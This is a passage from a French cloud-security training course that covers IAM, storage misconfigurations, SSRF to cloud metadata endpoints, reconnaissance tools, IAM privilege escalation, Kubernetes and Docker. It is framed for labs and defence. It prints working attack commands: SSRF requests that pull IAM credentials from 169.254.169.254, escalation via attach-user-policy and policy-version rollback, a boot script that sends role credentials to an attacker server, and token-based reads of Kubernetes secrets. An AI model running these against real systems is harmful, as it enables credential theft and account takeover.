- Utiliser `aws iam simulate-principal-policy` pour tester une politique avant de la déployer.

#### Résumé

IAM = users (personnes), groups (services), roles (casquettes temporaires), policies (règles JSON Allow/Deny), STS (guichet des credentials temporaires). Règle d'or : least privilege, jamais `Action: "*"` par défaut, jamais de clés en clair. La moitié des attaques cloud commence ici.

---

### (f) Les misconfigurations de stockage : S3, Azure Blob, GCP buckets

#### Définition

Le **stockage objet** (S3 chez AWS, Blob Storage chez Azure, Cloud Storage chez GCP) héberge des fichiers (images, docs, sauvegardes, bases exportées) dans des conteneurs nommés (buckets chez AWS/GCP, containers chez Azure). Une **misconfiguration** = un conteneur dont les autorisations autorisent la lecture (ou l'écriture) publique, souvent par erreur, par copier-coller ou par défaut mal compris.

**Analogie.** C'est un grenier de la maison cloud. La misconfiguration, c'est laisser la porte du grenier ouverte sur la rue : n'importe qui passe et prend ce qui lui plaît, sans même entrer dans la maison. Le grenier ne contient peut-être « que des vieux trucs »… ou des documents clients.

#### Pourquoi

Le stockage objet est **le** point le plus exposé du cloud : il est accessible par URL simple, par défaut, et beaucoup de gens croient à tort que « un bucket est privé par défaut ». En réalité : un bucket S3 est **privé par défaut**, mais **une seule policy mal écrite ou une ACL (Access Control List, liste de contrôle d'accès) publique le rend lisible par tout le monde sans authentification**. C'est la cause de centaines de brèches publiques (données clients, CV, mots de passe, backups de bases). C'est aussi la **première chose** que teste un pentester cloud : gratuit, sans bruit, souvent efficace.

#### Historique

Les buckets publics sont une plaie depuis la fin des années 2010 (mégabrèches 2017-2019 : données exposées par millions). AWS a réagi en ajoutant le **Block Public Access** (verrou qui interdit l'accès public quel que soit le reste) et des avertissements dans la console. Les défauts et les interfaces ont changé, mais les erreurs humaines persistent : un bucket « de test » devient production, un copier-coller de policy contient un `*`, une ACL reste cochée.

#### Fonctionnement — comment un bucket devient public

Deux mécanismes chez AWS :

1. **La bucket policy** : une politique JSON attachée au bucket. Si elle contient `"Principal": "*"` avec `s3:GetObject`, le bucket est lisible par le monde entier :

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::acme-uploads/*"
    }
  ]
}
```

2. **L'ACL** (Access Control List) : ancien mécanisme de permissions qui permet de mettre `public-read` ou `public-read-write` sur le bucket.

Les équivalents Azure (container avec `Public access level` = `Blob` ou `Container`) et GCP (`gsutil iam ch allUsers:objectViewer gs://bucket` ou une policy avec `allUsers`) fonctionnent sur le même principe : un membre spécial « tous les utilisateurs » autorisé en lecture.

#### Architecture

| Fournisseur | Conteneur | Paramètre incriminé | Commande de vérification |
| ----------- | --------- | ------------------- | ------------------------ |
| AWS | S3 bucket | Bucket policy `Principal:"*"` / ACL `public-read` | `aws s3api get-bucket-policy-status` |
| Azure | Blob container | `Public access level` = `Blob`/`Container` | `az storage container list --query "[?properties.publicAccess!=null]"` |
| GCP | GCS bucket | Policy avec membre `allUsers` | `gsutil iam get gs://bucket` |

#### Cas d'utilisation (du point de vue attaquant/pentester)

- Vérifier la **liste des buckets** du compte cible (`aws s3 ls`), puis tester l'accès **anonyme** (`--no-sign-request`).
- Tester le **listage** (`s3:ListBucket`) ET la **lecture** (`s3:GetObject`).
- Chercher les fichiers sensibles : `.env`, `backup`, `dump`, `.sql`, `credentials`, `config`.
- Vérifier l'**écriture** publique (exfiltration/rançongiciel) et le **versioning** (récupération des versions précédentes).

#### Exemple réel

Un développeur veut partager un fichier public, copie une policy trouvée sur Internet, la colle sur le bucket de production `acme-prod-backups`, oubliée. Un an plus tard, Prowler (ou un pentester) détecte que le bucket est lisible anonymement. Le rapport : des milliers de fichiers clients exposés pendant des mois, indices dans les journaux CloudTrail, compte rendu à la CNIL. La leçon : **jamais de policy publique sur un bucket de production, vérifier le Block Public Access.**

#### Bonnes pratiques

- Activer **Block Public Access** sur tous les buckets (par défaut recommandé).
- Ne jamais mettre `Principal: "*"` avec `s3:GetObject` sauf pour un bucket **explicitement** public (statique d'un site).
- Vérifier **avant** chaque mise en production : `aws s3api get-bucket-policy-status --bucket NOM`.
- Scanner périodiquement avec Prowler (checks `s3_bucket_public_access`, `s3_bucket_public_read_acl`, etc.).
- Chiffrer et versionner les buckets sensibles.

#### Résumé

S3/BLOB/GCS : un conteneur devient public via une policy ou une ACL avec « tout le monde » dedans. Détection : test anonyme (`--no-sign-request`), `get-bucket-policy-status`, Prowler. Protection : Block Public Access, least privilege, audits automatiques. C'est la faille cloud n°1 à savoir trouver et corriger.

---

### (g) Le SSRF vers les métadonnées cloud (169.254.169.254)

#### Définition

Le **SSRF** (Server-Side Request Forgery, « falsification de requête côté serveur ») est une faille où l'application demande au serveur de faire une requête HTTP vers une URL que l'attaquant choisit (tu l'as vu aux niveaux 4-5). La version cloud du SSRF exploite l'**endpoint de métadonnées** : chaque machine cloud (EC2, VM, instance) expose ses propres informations via une adresse spéciale **`169.254.169.254`** (adresse de lien local, jamais routable depuis Internet). Chez AWS, l'URL `http://169.254.169.254/latest/meta-data/` renvoie les métadonnées de l'instance, **y compris les credentials IAM temporaires** de son role.

**Analogie.** Le SSRF, c'est demander au concierge d'aller chercher un paquet chez quelqu'un. Les métadonnées, c'est le **coffre-fort personnel du concierge** : un coffre accessible uniquement depuis l'intérieur de son bureau. Si le concierge accepte d'aller chercher des paquets n'importe où (SSRF), tu peux lui demander d'ouvrir son propre coffre (l'endpoint de métadonnées) et de te rapporter les clés (credentials IAM).

#### Pourquoi

C'est la **faille cloud la plus rentable** : une seule faille web (un champ URL non filtré) peut donner les credentials du role de l'instance, donc un accès **réel au compte AWS** (S3, services, parfois plus). C'est exactement la chaîne d'attaque de la brèche Capital One (2019) : SSRF → métadonnées → credentials d'un role trop permissif → exfiltration de millions de dossiers. Le SSRF qui « ne menait à rien » sur un réseau classique devient **critique** dans le cloud.

#### Historique

L'endpoint `169.254.169.254` existe depuis les débuts d'EC2 (2007) pour donner aux instances leur configuration (IP, hostname, clé publique). Les credentials IAM temporaires y ont été ajoutés avec IAM roles (2011-2012). L'exploitation via SSRF est documentée depuis les années 2010 et a fait mouche sur des dizaines d'entreprises. En 2019, AWS a introduit **IMDSv2** (Instance Metadata Service version 2) qui exige un **jeton** (token) avant de lire les métadonnées : cela bloque beaucoup d'exploitations SSRF simples, mais le SSRF reste la technique cloud la plus testée et la plus payante.

#### Fonctionnement — la chaîne d'attaque



Étapes exactes (sur un labo) :

```bash
# 1. Énumérer les métadonnées via le SSRF
curl "http://labo-app/proxy?url=http://169.254.169.254/latest/meta-data/"
# 2. Trouver le role IAM de l'instance
curl "http://labo-app/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# 3. Récupérer les credentials temporaires
curl "http://labo-app/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/NOM_DU_ROLE"
```

Le JSON retourné contient `AccessKeyId`, `SecretAccessKey` et `Token` — on les exporte et on teste :

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws sts get-caller-identity
aws s3 ls
```

> **IMDSv2** (AWS) : depuis 2019, l'endpoint peut exiger un jeton. Deux requêtes :
> ```bash
> TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
> curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
> ```
> Si l'instance est en « v2 required », le simple GET SSRF échoue — mais pas toujours, et Azure/GCP ont leurs propres règles (ci-dessous).

#### Architecture — les endpoints métadonnées des trois fournisseurs

| Fournisseur | Endpoint | En-tête obligatoire | Récupération du jeton d'accès |
| ----------- | -------- | ------------------- | ----------------------------- |
| AWS | `http://169.254.169.254/latest/meta-data/` | (IMDSv1 : aucun ; IMDSv2 : `X-aws-ec2-metadata-token`) | `.../iam/security-credentials/<role>` |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | `Metadata: true` | `.../metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com` |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` (alias `169.254.169.254`) | `Metadata-Flavor: Google` | `.../instance/service-accounts/default/token` |

La protection métier est d'ailleurs identique pour tous : **filtrer les URLs sortantes de l'application, bloquer `169.254.169.254`, `metadata.google.internal`, et tout le bloc de lien local `169.254.0.0/16` en sortie** (egress filtering).

#### Cas d'utilisation (pentest/labo)

- Découverte d'un SSRF dans une app de labo (champ URL, import d'image, export PDF).
- Exploitation vers les métadonnées, récupération de credentials.
- Évaluation du **périmètre** des credentials (quels services/actions permettent-elles ? `aws sts get-caller-identity`, `aws iam get-account-authorization-details`, tests `aws s3 ls`…).
- Test de **IMDSv2** : si le PUT token échoue, l'instance est protégée — on documente, on ne force pas.

#### Exemple réel

**Capital One, 2019** : une application web vulnérable à un SSRF (via WAF misconfiguration) a permis de requêter `169.254.169.254`, de voler les credentials d'un role IAM doté de `s3:GetObject` et `s3:ListBucket` sur des buckets contenant les dossiers de 106 millions de clients. Leçons : SSRF non filtré + role trop permissif + pas de détection (GuardDuty/S3 access logs) = désastre. La brèche a été découverte par un chercheur en sécurité, pas par l'entreprise.

#### Bonnes pratiques

- **Côté défense** : IMDSv2 obligatoire (`aws ec2 modify-instance-metadata-options --http-tokens required`), pas de `169.254.169.254` en sortie, SSRF bloqué à la source (validation d'URL, DNS rebinding, listes blanches), roles IAM least privilege.
- **Côté pentest** : toujours tester le SSRF vers les métadonnées quand on a une app cloud ; documenter IMDSv2 dans le rapport ; ne jamais pousser au-delà du labo.

#### Résumé

SSRF + métadonnées = credentials cloud volés. Endpoint magique : `169.254.169.254` (AWS/Azure/GCP), en-têtes spécifiques (Azure `Metadata: true`, GCP `Metadata-Flavor: Google`, IMDSv2 jeton). Défense : filtrer la sortie, IMDSv2, least privilege. C'est la chaîne d'attaque n°1 du cloud.

---

### (h) La reconnaissance cloud : Prowler, ScoutSuite, Pacu, CloudFox, AWS CLI, GitHub

#### Définition

La **reconnaissance cloud** est l'étape qui collecte la configuration du compte cible : quelles identités existent, quels buckets sont présents, quelles politiques sont attachées, quels secrets sont exposés. Elle se fait avec la **CLI** du fournisseur (AWS CLI, az, gcloud) et avec des outils dédiés qui automatisent les contrôles : **Prowler**, **ScoutSuite**, **CloudFox**, et côté exploitation **Pacu**.

**Analogie.** En réseau classique, la recon = `nmap` pour trouver les services. En cloud, la recon = interroger le **casier central du syndic** (les API du fournisseur) : la liste des appartements (buckets), des portiers (IAM), des portes (security groups). Tout est documenté par le fournisseur lui-même : il suffit de demander avec les bons credentials.

#### Pourquoi

Dans le cloud, il n'y a pas de ports à scanner : tout est en API. La recon n'est donc pas « bruyante » comme un nmap : elle est **silencieuse et exhaustive** si on a des credentials. Les erreurs de configuration sont le vrai terrain de jeu. Et comme tout est documenté dans le compte, un compte avec de simples droits de lecture (`ReadOnly`) suffit à dresser une carte complète du terrain.

#### Historique

ScoutSuite (2016-2023) a été le premier scanner de posture multi-cloud (AWS/Azure/GCP), très pédagogique. **Prowler** (2016, maintenu activement par Prowler Inc.) est devenu le standard de l'audit de posture et le base-line CIS (Center for Internet Security, référentiel de durcissement). **Pacu** (Rhino Security Labs) est le framework d'exploitation cloud (post-exploitation). **CloudFox** (Bishop Fox) automatise l'énumération de chemins d'attaque (qui peut assumer quel role, quels buckets, etc.). AWS CLI reste la base : on ne peut pas utiliser un outil qu'on ne comprend pas.

#### Fonctionnement — les commandes de base AWS CLI

```bash
# Identité actuelle (qui suis-je ?)
aws sts get-caller-identity

# Compte et régions
aws ec2 describe-regions

# Stockage
aws s3 ls                              # liste les buckets (S3)
aws s3api list-buckets
aws s3api get-bucket-policy-status --bucket NOM

# Identités IAM
aws iam list-users
aws iam list-roles
aws iam list-policies --scope Local
aws iam list-attached-user-policies --user-name NOM
aws iam get-account-authorization-details   # dump complet IAM du compte

# Compute
aws ec2 describe-instances --query "Reservations[*].Instances[*].[InstanceId,State.Name,PublicIpAddress]"

# Serverless
aws lambda list-functions --query "Functions[*].[FunctionName,Runtime]"

# Journal d'audit
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateAccessKey
```

Chaque commande se munit d'un profil : `aws --profile labo <commande>` ou `export AWS_PROFILE=labo`.

#### Fonctionnement — les outils d'audit

| Outil | Type | Ce qu'il fait | Commande de base |
| ----- | ---- | ------------- | ---------------- |
| **Prowler** | Audit de posture (CSPM) | Lance des centaines de checks CIS (S3, IAM, EC2, CloudTrail…) et sort un rapport PASS/FAIL | `prowler aws --profile labo -M html,json -o /tmp/rapport` |
| **ScoutSuite** | Scanner de posture multi-cloud | Cartographie les ressources et les risques avec une interface web | `scout aws --profile labo` |
| **CloudFox** | Énumération de chemins d'attaque | Trouve les relations d'accès (roles, buckets, permissions) | `cloudfox aws --profile labo enum` |
| **Pacu** | Exploitation / post-exploitation | Module `iam__privesc_scan` pour détecter les escalades IAM, backdoor des comptes | `pacu` (interactif) |

#### Fonctionnement — GitHub pour les secrets

Une partie importante de la recon cloud est la recherche de **secrets exposés publiquement** : clés AWS (`AKIA…`), mots de passe, fichiers `.env` poussés par erreur sur un dépôt public. Outils réels : `gitleaks`, `trufflehog`, `git-secrets`, et la recherche GitHub avancée. Exemple de pattern à chercher : `AKIA[0-9A-Z]{16}` (préfixe des clés d'accès AWS).

#### Cas d'utilisation

Un pentest cloud autorisé commence presque toujours par : (1) `aws sts get-caller-identity` pour savoir qui on est ; (2) `aws s3 ls` + vérification de l'accès anonyme ; (3) Prowler en lecture seule pour la posture ; (4) CloudFox pour les chemins d'escalade ; (5) GitHub/dépôts publics pour les secrets ; (6) Pacu si on passe en exploitation.

#### Exemple réel

Dans un labo CloudGoat, un scénario te donne un compte IAM avec `ListAllMyBuckets`. `aws s3 ls` révèle un bucket. `aws s3 ls s3://nom --no-sign-request` réussit : le bucket est lisible anonymement. Prowler le confirme dans son rapport avec le check `s3_bucket_public_access` en FAIL. Tu viens de faire en 3 commandes ce qui prendrait des heures en réseau classique.

#### Bonnes pratiques

- Toujours commencer par l'**identité** : savoir ce que tes credentials peuvent faire avant d'attaquer.
- Utiliser Prowler en **lecture seule** sur les comptes autorisés ; les checks `--severity critical` d'abord.
- Tester l'**accès anonyme** (`--no-sign-request`) avant de conclure.
- Chercher les secrets sur GitHub en complément du compte.
- Documenter chaque résultat avec l'ARN de la ressource pour le rapport.

#### Résumé

La recon cloud = interroger les API du fournisseur avec les bons outils : AWS CLI (base), Prowler/ScoutSuite (posture), CloudFox (chemins d'attaque), Pacu (exploitation), gitleaks/trufflehog (secrets). Silencieuse, exhaustive, et gratuite dès qu'on a un minimum de permissions.

---

### (i) L'escalade de privilèges IAM

#### Définition

L'**escalade de privilèges IAM** consiste, en partant d'un compte avec peu de droits, à utiliser ces droits eux-mêmes pour **se fabriquer plus de droits**. Le principe : certaines permissions IAM sont « auto-renforçantes » — elles permettent de créer des clés, d'attacher des politiques, de modifier des roles ou de déléguer des accès, et donc de transformer un accès limité en accès total (souvent admin).

**Analogie.** C'est l'employé du standard qui découvre qu'avec sa carte « salle commune », il peut *créer une nouvelle carte* « salle des serveurs » (via l'outil des badges). Le badge de départ était modeste ; le pouvoir de **créer des badges** ne l'était pas. La faille n'est pas la carte, c'est la combinaison de permissions.

#### Pourquoi

Les techniques d'escalade IAM documentées par Rhino Security Labs (Spencer Gietzen, 2019) sont la **bible du pentester cloud** : dans la majorité des compromissions réelles, l'attaquant commence avec un compte faible (clé volée, rôle d'application, développeur) et remonte jusqu'à l'admin. Les connaître permet (côté attaquant) d'exploiter et (côté défense) de détecter les politiques qui permettent l'escalade.

#### Historique

Rhino Security Labs a publié en 2019 un article fondateur listant les techniques d'escalade IAM sur AWS (« Privilege Escalation Methods on AWS »), suivi de modules dans Pacu et de scénarios dans CloudGoat. Depuis, AWS a ajouté des alertes (GuardDuty, Access Analyzer) mais les techniques restent valables sur les comptes mal configurés.

#### Fonctionnement — les grandes techniques documentées

| Technique (résumé) | Permission clé | Résultat |
| ------------------- | --------------- | -------- |
| **Créer une clé d'accès** pour un autre user | `iam:CreateAccessKey` | Accès direct en tant que cet user |
| **Attacher une politique** à ton user | `iam:AttachUserPolicy` / `iam:PutUserPolicy` | Te donner n'importe quel droit |
| **Modifier une politique existante** | `iam:CreatePolicyVersion` + `iam:SetDefaultPolicyVersion` | Écraser la politique d'un user/role par une version admin |
| **Passer un role à une ressource** | `iam:PassRole` + `ec2:RunInstances` / `lambda:CreateFunction` | Faire tourner une machine/fonction avec un role puissant |
| **Assumer un role** | `sts:AssumeRole` (sur un role qu'on peut assumer) | Endosser la casquette du role |
| **Mettre un user dans un groupe admin** | `iam:AddUserToGroup` | Hériter des droits du groupe |
| **Réinitialiser un login profile** | `iam:UpdateLoginProfile` | Définir le mot de passe d'un autre user |
| **Modifier une policy de ressource S3** | `s3:PutBucketPolicy` | S'accorder l'accès à un bucket |

Exemple concret — la technique « rollback de version de politique » (scénario CloudGoat `iam_privesc_by_rollback`) :

```bash
# 1. Lister les versions de la politique du role cible
aws iam list-policy-versions --policy-arn arn:aws:iam::123456789012:policy/MonRolePolicy
# 2. Lire une ancienne version (souvent plus permissive, voire admin)
aws iam get-policy-version --policy-arn arn:aws:iam::123456789012:policy/MonRolePolicy --version-id v1
# 3. Re-mettre cette version comme version par défaut (si le compte le permet)
aws iam set-default-policy-version --policy-arn arn:aws:iam::123456789012:policy/MonRolePolicy --version-id v1
# 4. Assumer le role / tester tes nouveaux droits
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/MonRole --role-session-name escalade
```

Exemple « pass role » : si tu peux `iam:PassRole` sur un role admin et `ec2:RunInstances`, tu lances une instance avec ce role et un script au boot (`--user-data`) qui copie les credentials vers ton serveur — l'instance te donne les droits du role.

#### Architecture — le cycle de l'escalade



#### Cas d'utilisation

Pentest cloud (CloudGoat, labo) : détecter d'abord avec **Pacu** (`exec iam__privesc_scan`) ou **CloudFox**, puis exploiter la technique trouvée, puis vérifier l'étendue (Admin, S3, etc.). Côté défense : utiliser l'**Access Analyzer** d'AWS et les checks Prowler (`iam_policy_allows_privilege_escalation`) pour détecter ces politiques en continu.

#### Exemple réel

Un scénario CloudGoat type : le compte fourni a `iam:AttachUserPolicy` sur lui-même. `pacu`/`iam__privesc_scan` le détecte. Exploitation :

```bash
aws iam attach-user-policy --user-name ton_user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws sts get-caller-identity   # tu es toujours ton_user, mais maintenant admin
```

C'est l'escalade la plus simple et la plus fréquente des labos : une seule permission `iam:AttachUserPolicy` et le compte devient admin.

#### Bonnes pratiques

- **Least privilege** : refuser les permissions auto-renforçantes (`iam:*`, `sts:AssumeRole`, `iam:PassRole`) aux comptes qui n'en ont pas besoin.
- Utiliser **permission boundaries** et **SCP** pour plafonner même les politiques attachées.
- Détecter automatiquement : Prowler, AWS Access Analyzer, GuardDuty.
- Ne jamais donner `iam:PassRole` en vrac : restreindre les roles qu'on peut passer (avec `iam:PassedToService` et des conditions).
- En pentest : toujours vérifier la liste des techniques d'abord (`iam__privesc_scan`) avant de foncer.

#### Résumé

Escalade IAM = utiliser ses propres permissions pour en créer de plus grandes : créer une clé, attacher/modifier une politique, passer un role, assumer un role, entrer dans un groupe admin. Détection : `iam__privesc_scan`, Prowler, Access Analyzer. Défense : least privilege + plafonds (SCP, permission boundaries).

---

### (j) Kubernetes : architecture, RBAC, secrets, attaques

#### Définition

**Kubernetes** (abrégé **K8s**) est le logiciel qui **orchestre les conteneurs** : il déploie, surveille, redémarre et met à l'échelle des milliers de conteneurs automatiquement. On l'appelle souvent « le système d'exploitation du cloud ». Les cloud providers le proposent en version managée : **EKS** (Elastic Kubernetes Service, AWS), **AKS** (Azure Kubernetes Service), **GKE** (Google Kubernetes Engine).

**Analogie.** Docker, c'est la boîte de transport standard (le conteneur). Kubernetes, c'est le **port automatisé** : il reçoit des centaines de boîtes, décide qui part sur quel navire, surveille la flotte, remplace les boîtes abîmées et s'assure que le trafic arrive à la bonne boîte. Un cluster K8s est l'ensemble du port.

#### Pourquoi

Kubernetes est devenu le standard mondial pour déployer des applications : tout le monde migre vers les conteneurs orchestrés. Mais K8s ajoute **deux surfaces d'attaque majeures** : l'**API server** (la porte du port, exposée en HTTPS, souvent sur le port 6443) et le **RBAC** (le système de badges du port). Un cluster mal configuré = un API server accessible publiquement, un RBAC laxiste, des secrets en clair, et des conteneurs privilégiés qui permettent de s'échapper vers l'hôte. C'est LE sujet cloud sécurité le plus demandé en entreprise.

#### Historique

Kubernetes est open-source depuis 2014 (Google), devenu le standard en 2017-2018, standardisé par la CNCF (Cloud Native Computing Foundation). Les failles de configuration (API exposé, RBAC par défaut, secrets non chiffrés) ont été découvertes massivement par les outils `kube-hunter` et `kube-bench` (Aqua Security). K8s est aujourd'hui proposé en managé par AWS/Azure/GCP : la responsabilité de la sécurité du control plane est partagée, mais la config (RBAC, secrets, network policies) reste au client.

#### Fonctionnement — l'architecture

```mermaid
flowchart TD
    CP[Control Plane<br/>le cerveau] --> A[kube-apiserver<br/>port 6443 - LA porte]
    CP --> E[etcd<br/>la base des secrets et configs]
    CP --> S[kube-scheduler<br/>place les pods]
    CP --> C[kube-controller-manager<br/>gère l'état]
    N1[Node 1] --> K1[kubelet]
    N1 --> P1[Pod<br/>conteneur(s)]
    N2[Node 2] --> K2[kubelet]
    N2 --> P2[Pod]
    A --> K1
    A --> K2
```

- **Control plane** (le cerveau) : `kube-apiserver` (toute commande passe par lui), `etcd` (stockage de tout, dont les **secrets**), le scheduler et les controllers.
- **Nodes** (les machines de travail) : chaque node a un `kubelet` (l'agent qui obéit à l'API server), `kube-proxy` (routage), et le runtime de conteneurs.
- **Pod** : la plus petite unité — un ou plusieurs conteneurs qui partagent une IP.
- **kubectl** : le client CLI qui parle à l'API server (`kubectl get pods`, `kubectl get nodes`…).

#### Fonctionnement — RBAC

Le **RBAC** (Role-Based Access Control, contrôle d'accès par rôles) de K8s régit qui peut faire quoi sur l'API server :

- **Role / ClusterRole** : un ensemble de permissions (`get`, `list`, `create`, `delete` sur des ressources comme `pods`, `secrets`). Le Role est limité à un namespace, le ClusterRole à tout le cluster.
- **RoleBinding / ClusterRoleBinding** : le lien entre un **sujet** (user, group, ServiceAccount) et un Role.

```bash
kubectl get roles -A                      # les roles
kubectl get clusterroles -A               # les roles de cluster
kubectl get rolebindings -A               # les liaisons
kubectl auth can-i --list                 # mes propres permissions (moi, l'utilisateur kubectl)
```

**ServiceAccount** : l'identité d'un pod. Chaque pod a un ServiceAccount ; son jeton permet d'appeler l'API server. Si le ServiceAccount a un RoleBinding permissif (ex. `list secrets`), le pod peut lire les secrets.

#### Fonctionnement — les secrets

Un **Secret** K8s stocke des données sensibles (mots de passe, clés, tokens). Point critique : un Secret est **simplement encodé en base64, PAS chiffré par défaut** :

```bash
kubectl get secrets
kubectl get secret mon-secret -o jsonpath='{.data}'
echo "dXNlcm5hbWU6YWRtaW4=" | base64 -d   # base64 -d = décoder
```

Quiconque a le droit `get secrets` sur le cluster lit les secrets en clair. Et tout est en clair dans **etcd** par défaut.

#### Fonctionnement — les attaques classiques

| Attaque | Principe | Détection / outil |
| ------- | -------- | ----------------- |
| **API server exposé** | Le port 6443 est accessible depuis Internet, avec auth faible ou anonyme | `nmap -p 6443 <ip>`, `kube-hunter --remote <ip>` |
| **RBAC laxiste** | Un ServiceAccount peut `list secrets` ou `create pods` dans tout le cluster | `kubectl auth can-i --list`, `kube-hunter` |
| **Secret en clair dans le pod** | Variable d'environnement ou fichier avec un secret, accessible via `kubectl exec` | Scan manuel des pods |
| **Container escape** | Un pod privilégié (hostPID, hostNetwork, capabilities, docker.sock) s'échappe vers le node | `kube-hunter`, CIS kube-bench, `falco` |
| **Anonymous auth activé** | L'API server accepte des requêtes sans authentification | `kube-hunter` |

L'attaque « API exposé + RBAC laxiste » en pratique (labo) :

```bash
# On a trouvé l'API server exposé (ex: https://10.0.0.5:6443)
# Un ServiceAccount permissif "default" est monté dans les pods
kubectl create token default -n default   # récupère un jeton SA (kubectl ≥ 1.24)
# Ou via un pod : lecture du jeton monté
curl -k -H "Authorization: Bearer $TOKEN" https://10.0.0.5:6443/api/v1/namespaces/default/secrets
```

#### Cas d'utilisation

- Pentest : auditer un cluster de labo (minikube, EKS sandbox) : `kube-hunter` local, `kubectl auth can-i --list`, recherche de roles permissifs, tentative de lecture de secrets.
- Défense : `kube-bench` (checks CIS), network policies, limites de ressources, admission controllers, RBAC least privilege, secrets via un gestionnaire externe (Vault, External Secrets).

#### Exemple réel

Le **Tesla Kubernetes dashboard** (2018) : un tableau de bord Kubernetes (kube dashboard) accessible sans authentification sur un cluster exposé. En exploitant un pod, un attaquant a récupéré des credentials AWS et lancé de la crypto-mining. L'API server et le dashboard n'avaient pas d'authentification → RBAC absent → compromission complète. Depuis, les outils `kube-hunter`/`kube-bench` sont devenus des réflexes d'audit.

#### Bonnes pratiques

- **Ne jamais exposer l'API server ni le dashboard sans authentification** ; le dashboard se met derrière un proxy ou une auth forte.
- RBAC **least privilege** : pas de ClusterRoleBinding `cluster-admin` en masse, restreindre `list secrets`.
- Chiffrer les secrets (etcd encrypté) ou utiliser un gestionnaire externe (Vault/External Secrets).
- Interdire les **pods privilégiés** (securityContext, PSP/OPA Gatekeeper), les capabilities SYS_ADMIN, le montage de `/var/run/docker.sock`.
- Scanner régulièrement : `kube-hunter` (vulnérabilités), `kube-bench` (CIS), `trivy` (images), `falco` (runtime).

#### Résumé

K8s = port automatisé de conteneurs : control plane (API server, etcd), nodes, pods. Les attaques clés : API exposé, RBAC laxiste, secrets en clair (base64 ≠ chiffré), container escape. Outils : `kubectl`, `kube-hunter`, `kube-bench`, `trivy`. Défense : RBAC strict, pas de pods privilégiés, secrets chiffrés, scans automatiques.

---

### (k) Les conteneurs Docker : bases, images, secrets, Docker socket, escape

#### Définition

**Docker** est l'outil qui permet de construire, partager et exécuter des **conteneurs** : des environnements isolés contenant une application et toutes ses dépendances (bibliothèques, runtime). Un conteneur s'appuie sur les fonctionnalités du **noyau Linux** (namespaces pour l'isolation, cgroups pour les ressources). Une **image** est le modèle figé ; un **conteneur** est l'image en cours d'exécution.

**Analogie.** Une image Docker est un **DVD d'installation** : le même DVD crée exactement le même système partout. Un conteneur est le système installé à partir du DVD, qui tourne dans son propre bac à sable. La faille classique de sécurité : croire que le bac à sable est une forteresse.

#### Pourquoi

Tout le monde utilise Docker (développeurs, CI/CD, microservices). Les erreurs de sécurité Docker sont l'un des chemins d'entrée les plus courants : images remplies de vulnérabilités, secrets dans les images, conteneurs lancés avec trop de privilèges, et montage du **Docker socket** qui permet un **escape** (évasion) vers l'hôte. Comprendre Docker, c'est comprendre la couche sous Kubernetes (K8s orchestration = couche au-dessus des conteneurs).

#### Historique

Docker naît en 2013 et démocratise les conteneurs. Les failles d'isolation (dont **CVE-2019-5736** dans runc, le runtime sous-jacent, et **CVE-2022-0492** dans les cgroups) ont montré que l'isolation n'est pas parfaite. Docker a durci ses défauts (pas de root par défaut dans le conteneur, seccomp par défaut), mais **les erreurs de configuration** (images, secrets, socket) restent la première cause de compromission.

#### Fonctionnement — commandes de base

```bash
docker build -t monapp:1.0 .            # construire une image depuis un Dockerfile
docker images                            # lister les images
docker run -it monapp:1.0 /bin/sh        # lancer un conteneur interactif
docker exec -it <id_conteneur> /bin/sh   # entrer dans un conteneur qui tourne
docker ps                                # conteneurs actifs
docker save -o image.tar monapp:1.0      # exporter une image (pour analyse)
```

